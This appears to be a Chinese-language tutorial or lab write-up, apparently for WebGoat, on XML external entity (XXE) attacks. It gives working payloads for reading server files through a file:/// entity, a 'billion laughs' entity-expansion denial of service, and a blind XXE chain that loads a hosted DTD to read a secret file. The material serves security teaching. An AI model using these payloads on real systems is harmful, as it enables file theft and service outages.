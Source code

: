 XML实体允许定义标记，这些标记将在解析XML文档时被内容替换。一般来说，实体有三种类型:

1. 内部实体
2. 外部实体
3. 参数实体

实体必须在文档类型定义(DTD)中创建，让我们从一个例子开始

```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE blog [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<blog>
<author>&js;</author>
</blog>
```

会被解析为

```
<blog>
<author>Jo Smith</author>
</blog>
```

### 信息泄露示例

```
<?xml version="1.0" ?>
<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]>
<comment>
<text>&root;</text>
</comment>
```
可以将根目录`/`下的内容读取出来

### 拒绝服务示例

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
使用相同的XXE攻击，可以对服务器进行DOS服务攻击。当XML解析器加载这个文档时，它看到包含根元素lolz，其中包含文本&lol9;。然而，&lol9;是一个已定义的实体，它可以扩展为包含十个&lol8;的字符串。每个&lol8;字符串都是一个已定义的实体，可以扩展为十个&lol7;字符串，以此类推。在处理所有实体扩展之后，这个小块< 1 KB的XML实际上将占用几乎3 GB的内存。

### Blind XXE

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'file://home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
```
在服务器中托管该DTD文件，并拦截携带XML的请求，修改请求内容，使其远程调用文件。

```
<?xml version="1.0"?>
<comment>
<text>cute</text>
</comment>
```

修改为

```
<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY % command SYSTEM "http://127.0.0.1:9090/files/sonder/attack.dtd">
%command;
]>
<comment>
<text>cute &ping;</text>
</comment>
```